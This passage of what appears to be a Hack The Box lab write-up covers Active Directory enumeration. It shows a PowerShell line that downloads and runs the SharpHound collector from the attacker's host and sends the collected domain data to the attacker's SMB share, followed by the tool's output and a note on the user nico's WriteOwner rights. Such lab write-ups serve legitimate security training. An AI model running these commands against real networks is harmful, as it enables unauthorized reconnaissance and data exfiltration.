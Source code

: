 ```powershell
MegaBank_Users
Finance_Users
HR_Team
```

### Domain Graph

On the attacking machine, serve the PowerShell BloodHound collector via HTTP. Initiate the collection and output the results on the attacking machine's SMB share.

```powershell
PS C:\Users\tom> IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.81/SharpHound.ps1"); Invoke-BloodHound -CollectionMethod All -Stealth -NoSaveCache -OutputDirectory \\10.10.14.81\tgihf\
------------------------------------------------
Initializing SharpHound at 7:13 AM on 11/12/2021
------------------------------------------------

Updated Collection Methods to Reflect Stealth Options
[-] Removed LoggedOn Collection
[-] Removed RDP Collection
[-] Removed DCOM Collection
[-] Removed PSRemote Collection
[-] Removed LocalAdmin Collection
[+] Added GPOLocalGroup

Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, SPNTargets, Container, GPOLocalGroup

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
[+] Finding Stealth Targets from LDAP Properties

Status: 0 objects finished (+0) -- Using 133 MB RAM
Status: 84 objects finished (+84 42)/s -- Using 139 MB RAM
Enumeration finished in 00:00:02.8091862
Compressing data to \\10.10.14.81\tgihf\20211112071327_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 7:13 AM on 11/12/2021! Happy Graphing!
```

Import the collected data into BloodHound and investigate the graphs.

#### `nico`

Analysis of the user `nico` reveals that he is both in the `Print Operators` group and that he has `WriteOwner` permission on the user account `Herman`. He is also the member of several other non-standard groups.
